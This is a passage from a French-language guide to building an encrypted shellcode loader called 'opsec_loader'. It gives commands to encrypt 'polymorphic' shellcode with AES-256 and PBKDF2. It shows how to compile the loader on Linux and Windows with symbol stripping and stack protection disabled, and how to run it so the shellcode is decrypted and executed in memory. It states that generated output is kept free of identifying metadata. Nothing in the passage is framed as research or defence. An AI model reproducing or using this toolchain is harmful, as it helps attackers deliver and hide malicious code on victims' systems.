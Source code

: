 **Détails de l'opération**:
- Utilisation de `secrets.token_bytes()` pour une génération cryptographiquement sûre
- Formatage adapté au langage cible sans métadonnées identifiables

#### 3.2. Chiffrement du shellcode

```bash
# Chiffrer le shellcode avec la clé générée
python3 encrypt_shell.py shellcode.bin $(cat crypto.key) payload.enc

# Vérifier la sortie
ls -la payload.enc
```

**Processus de chiffrement**:
1. Lecture du shellcode polymorphique
2. Génération de sel et vecteur d'initialisation (IV) aléatoires
3. Dérivation de clé par PBKDF2 avec 100 000 itérations
4. Chiffrement AES-256-CBC avec rembourrage PKCS#7
5. Sauvegarde atomique pour éviter les fichiers corrompus

### Étape 4: Compilation du loader

Le loader est le composant qui déchiffre et exécute le shellcode en mémoire.

#### 4.1. Compilation sur Linux

```bash
# Option 1: Utiliser le script de compilation
./compile.sh

# Option 2: Compilation manuelle
gcc -O2 -s -DNDEBUG -fvisibility=hidden -ffunction-sections -fdata-sections \
    -Wl,--gc-sections -o opsec_loader opsec_loader.cpp -include loader_key.h -lcrypt32
```

#### 4.2. Compilation sur Windows

```powershell
# Avec MinGW
gcc -O2 -s -DNDEBUG -fvisibility=hidden -o opsec_loader.exe opsec_loader.cpp -include loader_key.h -lcrypt32 -ladvapi32

# Avec MSVC (Ouvrir Developer Command Prompt)
cl.exe /O2 /GL /GS- opsec_loader.cpp /Feopsec_loader.exe /link advapi32.lib crypt32.lib /SUBSYSTEM:CONSOLE
```

### Étape 5: Déploiement et exécution

Deux méthodes sont proposées pour l'exécution:

#### 5.1. Exécution directe

```bash
# Linux
./opsec_loader payload.enc $(cat crypto.key)

# Windows
.\opsec_loader.exe payload.enc (Get-Content -Raw crypto.key)
```
